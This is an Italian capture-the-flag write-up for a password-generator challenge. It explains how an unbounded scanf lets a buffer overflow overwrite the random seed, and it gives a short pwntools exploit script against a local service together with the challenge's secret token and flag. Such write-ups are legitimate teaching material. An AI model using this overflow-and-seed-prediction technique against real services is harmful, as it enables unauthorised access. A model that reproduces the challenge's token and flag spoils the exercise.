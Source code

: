 # Password Generator (`pswgenerator`)

La challenge espone un servizio remoto (`nc localhost 20010`) ed il binario corrispondente, che presumibilmente 'genera' delle password.
La generazione delle password e l'implementazione del programma sembrano corrette, ma analizzando bene il decompilato ci si accorge di una parte critica in questa sezione:

![vuln](vuln.png)

- Lo `scanf()` di `nome` non ha un limite sui caratteri inseriti (`%s`), permettendo un buffer overflow.
- Il seed viene assegnato con time(0) prima che questo `scanf()` venga chiamato, quindi overflowando il nome si può sostituirlo (se il layout di memoria lo consente).

![layout](layout.png)

Osservando il frame della funzione (con `Edit stack frame` di `ghidra`), capiamo di poterlo fare.

A questo punto l'exploit è chiaro, basterà sovrascrivere il seed ad un valore deciso da noi sfruttando il **buffer overflow**, e prevedere quindi la password generata.
Per farlo si può o riscrivere il codice con il nostro seed, o per i più pigri debuggare il binario con un debugger (es. `gdb`) e prendere il valore in **runtime**.

Fatto questo basterà reversare il binario per trovare il token **segretissimo** e scrivere la password giusta, e si riceverà la flag.

**Nota:** Normalmente i compilatori, fra le altre ottimizzazioni, riordinano le variabili mettendo i buffer dopo le variabili (es. `int`). Per rendere la challenge exploitabile, le variabili sono state messe in uno struct packed, altrimenti il seed sarebbe stato sopra al nome.

Esempio di exploit:
```python
from pwn import *

context.binary = ELF('attachments/pswgenerator')
p = remote('localhost', 20010)

payload = b'A'*64 + b'B'*8

print(p.recvuntil(b'Come ti chiami?').decode())
p.sendline(payload)

print(p.recvuntil(b'.com/)'))
p.sendline(b'supersafeunguessabletoken')

password = b'Yy?6V9yCpO\W~KL\W?2]eT:E1mZzPmgzgG2^qLrc<p;;<y8dY<c@a>V3|1NM@ViH' # preso con gdb
print(p.recvuntil(b'la flag!').decode())
p.sendline(password)

p.interactive()
```

Flag: `rossiCTF{4pP4r3N7ly_th3_p4Ssw0rD_W45n7_s0_54f3..._a3f9c1}`